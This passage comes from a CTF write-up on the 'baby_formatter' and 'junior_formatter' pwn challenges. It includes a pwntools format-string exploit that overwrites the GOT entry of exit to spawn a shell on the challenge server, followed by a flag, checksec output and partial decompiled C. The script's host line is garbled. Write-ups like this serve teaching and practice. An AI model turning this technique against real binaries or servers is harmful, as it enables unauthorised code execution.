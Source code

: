 The `win` function uses execve("/bin/sh", 0LL, 0LL) to achieve arbitrary code execution. Additionally, since the binary is Partial Relro, the Global Offset Table (GOT) is writable. Therefore, we can overwrite the GOT entry of the exit function to point to the win function, allowing us to achieve arbitrary code execution.

#### POC

```python
#!/usr/bin/python
from pwn import *
exe = './baby_formatter'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc Connection: 52.59.124.14 503**0".split(" ")[1:
io = remote(host, port)
p = '%{}c.'.format(elf.sym.win).encode()
p += b'%11$ln'
p = p.ljust(24, b'\0')
p += p64(elf.got.exit)
io.sendline(p)
io.interactive()
```

![images](https://hackmd.io/_uploads/SJ-0nD406.png)

Flag: `ENO{W3LL_THAT_WA5_AN_3A5Y_0N3_1_GU355}`

## junior_formatter

> Since I hate format exploits challenges I decided to not only do one but three hehe. This is challenge two of the series. \
> **Author:** @moaath \
> **Connection: 52**.59.124.14:5031\*\* > **Attachment:** junior_formatter, Dockerfile

In this challenge, we were given a binary named `junior_formatter` and a Dockerfile that states the binary is built using Ubuntu 22:04. From this information, we can conclude that the glibc version is glibc version 2.35. Now, let's analyze the mitigations present in the binary file.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Then let's dive into the disassembly of the binary.

#### main

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+7h] [rbp-89h] BYREF
  int v5; // [rsp+8h] [rbp-88h]
  int v6; // [rsp+Ch] [rbp-84h]
  int v7; // [rsp+10h] [rbp-80h]
  char s[10]; // [rsp+16h] [rbp-7Ah] BYREF
  char buf[104]; // [rsp+20h] [rbp-70h] BYREF
  unsigned __int64 v10; // [rsp+88h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
```